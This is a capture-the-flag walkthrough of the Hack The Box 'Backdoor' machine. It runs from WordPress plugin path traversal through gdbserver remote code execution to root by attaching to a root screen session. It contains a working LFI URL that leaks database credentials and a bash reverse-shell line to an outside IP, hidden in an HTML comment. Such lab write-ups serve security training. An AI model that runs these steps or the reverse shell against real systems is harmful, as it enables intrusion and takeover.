







<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.125 backdoor.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web server is running wordpress.

with wpscan, collected some infomation.

* : WordPress version 5.8.1 identified
* [i] User(s) Identified: admin

## WP-Plugin:eBook Download 1.1 - LFI/RFI

Manually go through wp common directories `/wp-content` and `/wp-includes`

* `/wp-includes` allowed indexing but nothing interesting there.
* `/wp-content`is not indexing but `/wp-content/plugins` directory is allowed indexing

there is a plugin in plugins directory



```bash
❯ searchsploit wordpress ebook download
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                          | php/webapps/39575.txt
----------------------------------------------------------------------------------- ---------------------------------
```

And right off the bat found Directory Traversal vulnerability in WordPress Plugin eBook Download 1.1 from searchsploit.

its smiply allowed file inclusion from `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

with lfi, get the `wp-config.php` file and db creds: `wordpressuser:MQYBJSaD#DxG6qbm`.

**Don't get anything interesting**

Moving on to port 1337 but not able to identify the service.

## identifying services with `/proc`

we have lfi that means we can read system file and use this ability and try to find the port 1337 service.

in linux everything is file even a running process and we can read every process from `/proc`; **Source: proc [man page](https://man7.org/linux/man-pages/man5/proc.5.html)**

**`/proc`** : The proc filesystem is a pseudo-filesystem which provides an interface to kernel data structures.

**`/proc/[pid]`** : subdirectories Each one of these subdirectories contains files and subdirectories exposing information about the process with the corresponding process ID.

**`/proc/[pid]/cmdline`** : This read-only file holds the complete command line for the process.

I use burp intruder to brute force pid to find the process.



For curret boot, the PID for service that running on port 1337 in `862`
```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

## GDBserver Remote Payload Execution

Port 1337 is running gdbserver. We can connect to this service with gdb.



There is a very old (2013) techinque on gdbserver to RCE from [jbremer.org](http://jbremer.org/turning-arbitrary-gdbserver-sessions-into-rce/)

To make this easy there is a metasploit module based on this exploit.



Running msf module and get shell on the box



<!--
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.40/4141 0>&1"
-->

# Privesc

## suid: `screen`

Running find command for setuip binary on the box and found `/usr/bin/screen` with setuip bit permission.



And  screen version `Screen version 4.08.00 (GNU) 05-Feb-20`

There is a [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/) in GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of logfile permissions.

Found exploit: https://github.com/XiphosResearch/exploits/tree/master/screen2root

But looks like this version of screen is not vulnerable for this exploit.

Another thing we can check is screen sessions with `screen -ls <username>/`
```bash
(remote) user@Backdoor:/etc$ screen -ls user/
No Sockets found in /run/screen/S-user.
```

And because screen command have suid permission we can also view root user sessions.
```bash
(remote) user@Backdoor:/etc$ screen -ls root/
There is a suitable screen on:
	53053.root	(11/22/21 07:35:40)	(Multi, detached)
1 Socket in /run/screen/S-root.
```

And there is one session active named `root`. We can access it with `screen -x <username>/<session-name>`
```bash
screen -x root/root
```
